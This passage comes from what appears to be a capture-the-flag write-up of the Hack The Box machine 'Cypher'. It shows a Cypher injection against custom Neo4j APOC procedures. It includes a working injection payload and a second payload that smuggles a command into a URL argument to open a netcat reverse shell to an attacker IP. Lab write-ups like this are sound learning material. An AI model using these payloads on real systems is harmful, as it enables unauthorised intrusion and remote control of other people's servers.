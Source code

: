 ![alt text](../assets/img/posts/2025-08-20-htb-writeup-cypher/image-3.png)

Since I’m not very experienced with Cypher injection... had to read some [documentation](https://neo4j.com/developer/kb/protecting-against-cypher-injection/) about that. Specifically the 'Parameters and APOC' section, gets interesting as it coincidentally matches the `.jar` library we found.

After some trial and error, we got a payload for executing APOC methods that does not give an error for `custom.helloWorld` endpoint

```bash
a' RETURN h.value as hash UNION CALL custom.helloWorld('a') YIELD greeting RETURN greeting as hash; //
```

![alt text](../assets/img/posts/2025-08-20-htb-writeup-cypher/image-4.png)

Next, we focus on the `custom.getUrlStatusCode` method we spotted earlier. If exploitable, it can give us our first foothold on the box. After some testing, we craft a payload that spawns a reverse shell back to our attacking machine.

```bash
a' RETURN h.value as hash UNION CALL custom.getUrlStatusCode ('http://10.10.14.217:5555; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.217 4444 >/tmp/f') YIELD statusCode RETURN statusCode as hash; //
```
